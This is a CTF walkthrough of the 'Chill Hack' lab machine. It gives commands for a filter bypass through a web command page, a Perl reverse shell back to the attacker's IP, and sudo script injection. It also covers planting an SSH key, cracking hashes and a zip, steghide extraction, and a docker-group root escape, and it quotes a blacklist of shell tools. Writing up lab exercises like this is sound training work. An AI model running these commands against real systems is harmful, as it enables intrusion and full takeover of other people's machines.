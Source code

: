 # Chill Hack Writeup


Lets start with a simple `nmap -A -sS -T4 10.10.233.73` we get the following output

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.59.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

As we can see there is a webserver running so lets run gobuster and check it out at the same time. Okay so the website doesnt seem very usefull but gobuster found 
`/secret (Status: 301) [Size: 313] [--> http://10.10.233.73/secret/]`

Seems like we can execute commands on it, okay so after testing some commands there is a filter. Commands like `ls` return a 'Are you a Hacker?' page and commands like `echo hi` return the ouput with no problem so we can try hiding malicious intent in `echo`

Which did not take me long to find using `echo *` we can see the directories contents!
`images index.php` Lets try reading the index.php file so we can see the conditions that block our commands and avoid them! Using  ```echo `cat index.php` ``` we can spawn the file and if we now view source we find:
```
<!--?php if(isset($_POST['command'])) { $cmd = $_POST['command']; $store = explode(" ",$cmd); $blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'); for($i=0; $i<count($store); $i++) { for($j=0; $j<count($blacklist); $j++) { if($store[$i] == $blacklist[$j]) {?-->
```

So we now know we cant use without echo the following commands:
`nc,python,bash,php,perl,rm,cat,head,tail,python3,more,less,sh,ls`

If we run `nc -lnvp 9999` on our Attack Machine we listen for a reverse shell and after running the following command we have a shell! I found this on [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```
echo `perl -e 'use Socket;$i="YOUR_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
```

Before doing anything run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to spawn a terminal with more capibilities. After looking around for a while I couldnt find much except some mySQL creds, but before checking that out I ran a [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and got some intresting output:

```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Content of `.helpline.sh`

```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

So we see that the `msg` variable will be executed, and send errors to /dev/null. So if we just run the script with `sudo -u apaar /home/apaar/.helpline.sh` we can now inside the script run commands under the `apaar` user. Spawn a better shell `python3 -c 'import pty;pty.spawn("/bin/bash")'` once again then we can navigate to `/home/apaar/` and `cat local.txt` which gives us the User Flag! Good job we have made it this far now time for privesc!

We can also gain ssh access by adding our public ssh key to `.ssh/authorized_keys` with `echo <YOUR SSH PUB KEY> >> .ssh/authorized_keys` and now using `ssh apaar@<VICTIM_IP>` on our attack machine we can login as apaar and get a proper shell!

Lets go back to the mySQL we found earlier in `/var/www/files/index.php` and login with `mysql -u root -p -D webportal`

![mySQL Users](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-02-10%20at%206.27.07%20PM.png)

After running `show tables;` and  `SELECT * from users;` we can see we get the md5 hash of anurodh account, so lets crack that using [Crack Station](https://crackstation.net/) ![Cracked Md5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-02-10%20at%206.05.57%20PM.png) and we get a postive result! Lets try loging in with ssh now.

Did not work. But I did see something intresting earlier in the `/var/www/files/hacker.php` file:

```
<center>
        <img src = "images/hacker-with-laptop_23-2147985341.jpg"><br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

So lets try looking deeper into the image. To be able to download the image to our machine lets use the ftp service we saw earlier, I had not even noticed that there was an anonymous login available which gave this `note.txt`
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

We figured it out alone anyways so didnt miss anything huge. After trying to use ftp and it not working I realised we can just use apaar with the scp command and download the file  `scp apaar@<VICTIM_IP>:/var/www/files/images/hacker-with-laptop_23-2147985341.jpg .`

Now lets run steghide on it `steghide --info hacker-with-laptop_23-2147985341.jpg` after running this command with an empty password we can see a `backup.zip` file hidden inside, so lets extract it! `steghide extract -sf hacker-with-laptop_23-2147985341.jpg`

After extracting it if we try to `unzip backup.zip` it asks for a passphrase so we can try the md5 hashes we cracked earlier. None of them worked so I decided to use john,
first run `zip2john backup.zip | tee hash` to generate a hash file and then we can crack it using `john hash --wordlist=/usr/share/wordlists/rockyou.txt` 
![Cracked Zip](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-02-10%20at%206.27.07%20PM.png) And in a couple seconds we get a successfull password.

Upon using `cat source_code.php` we can see an intresting line:
`if(base64_encode($password) == "IWQwbnRLbjB3bVlwQHNzdzByZA==")`
We directly know its base64 encoded and can decode it easily which gives us
`!d0ntKn0wmYp@ssw0rd` Once again lets try logging in to ssh with this password.

It Worked! Finally we have a new user and new permissions!

After running anothe linPEAS (yes ik im addicted to laziness), we get 2 very very promising results for privesc:

```
Docker socket /var/run/docker.sock is writable
uid=1002(manurodh) gid=1002(manurodh) groups=1002(manurodh),999(docker)
```

So after looking up some privesc with docker I found the [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) reference, which with 1 easy command can spawn a root shell! 
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

Good Game! Took a while but we got there! Hope you guys enjoyed, I learned alot along the way and hopefully I didnt do to badly, cya for the next one.


